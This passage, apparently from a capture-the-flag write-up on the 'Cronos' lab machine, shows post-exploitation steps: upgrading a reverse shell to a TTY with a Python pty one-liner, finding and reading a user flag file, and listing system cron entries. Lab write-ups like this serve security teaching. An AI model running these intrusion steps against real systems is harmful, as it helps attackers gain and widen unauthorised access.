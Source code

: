 And here is the reverse shell that can be upgraded to a TTY shell with the following:

- https://netsec.ws/?p=337

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

![shell](./cronos/shell.png)

From here, it is easy to find `user.txt` with the following commands:

```bash
find / -iname user.txt -type f -exec ls -lad {} \; 2>/dev/null
cat /home/noulis/user.txt
```

![user](./cronos/user.png)

If there is a double typing issue into the terminal after upgrading to a TTY shell, fix it by disabling `echo` in the Kali TTY shell as follows:

```bash
# Ctrl-Z to background the target shell
stty -echo
fg
```

During user enumeration, the following cron entry is found:

```bash
cat /etc/cron*
```

![cron](./cronos/cron.png)
